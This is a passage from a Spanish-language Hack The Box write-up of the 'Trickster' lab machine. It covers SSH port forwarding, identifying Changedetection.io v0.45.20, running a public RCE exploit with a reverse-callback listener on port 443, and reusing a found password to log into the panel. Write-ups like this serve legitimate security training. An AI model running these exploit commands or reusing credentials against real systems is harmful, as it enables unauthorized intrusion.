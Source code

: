 Redirigimos el puerto 5000 remoto a nuestra máquina local, con la idea de poder analizar el sitio en busca de vulnerabilidades que nos permitan escalar privilegios o enumerar información relevante:
```console
sh -L 5000:172.17.0.2:5000 james@trickster.htb
james@trickster.htb's password: 
Last login: Fri Jan 31 19:03:48 2025 from 10.10.14.152
```

Accedemos al sitio desde nuestra máquina por el puerto 5000, enumeramos un software llamado Changedetection.io v0.45.20:
![](../assets/img/trickster-hackthebox-writeup/5.png)

Buscamos por internet, encontramos un exploit que nos permite ejecutar código remoto:
- [changedetection < 0.45.20 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/52027)

Ejecutamos el exploit, pero parece que no funciona:
```console
python3 52027.py --url http://localhost:5000 --port 443 --ip 10.10.14.152
Obtained CSRF token: ImJmODRhNGQwNjNjZmQzOGM4NTZhMzc2MGMxNmZlYTRhMzkxZTRhOGQi.Z50gfg.Y-zescMqrNT1rOMRwcNJsYqfyng
Redirect URL: /login?next=/
Final request made.
[+] Trying to bind to :: on port 443: Done
[q] Waiting for connections on :::443
Listening on port 443...
```

Volvemos al panel, probamos a reutilizar la contraseña de *James* y logramos acceder al aplicativo.
Además, parece que tiene opciones interesantes como *Backup* o conexiones que se están establenciendo con otros dispositivos: